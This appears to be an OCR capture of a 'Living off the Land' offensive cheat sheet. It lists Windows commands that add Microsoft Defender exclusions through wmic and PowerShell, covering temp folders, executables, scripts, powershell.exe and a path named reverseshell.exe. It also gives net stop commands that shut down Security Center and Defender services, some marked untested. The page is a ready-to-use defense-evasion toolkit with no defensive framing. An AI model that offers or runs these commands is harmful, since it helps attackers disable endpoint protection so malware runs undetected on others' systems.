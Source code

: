 # Living off the Land

## 01 - Add Exclusions

> [!INFO] Elevated Privileges is Required
> You must run this as administrator add any exclusions.

### 1.1 - Command Prompt

```
C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"

C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"\Temp\\"

C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\".dll\"

C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"rundll32.exe\"
```

### 1.2 - Powershell

```
PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp

PS C:\> Add-MpPreference -ExclusionProcess powershell.exe

PS C:\> Add-MpPreference -ExclusionExtension ".exe"

PS C:\> Add-MpPreference -ExclusionExtension ".bat"

PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp\reverseshell.exe
```

## 02 - Windows Security

### 2.1 - Disable

#### 2.1.1 - Command Prompt

```
C:\> net.exe stop "Security Center"
```

Note: Just the rest of these are not tested just yet

```
C:\> net.exe stop "WdNisSvc"

C:\> net.exe stop "WdNisDrv"

C:\> net.exe stop "WdFilter"

C:\> net.exe stop "WdBoot"

C:\> net.exe stop "wcncsvc"
```
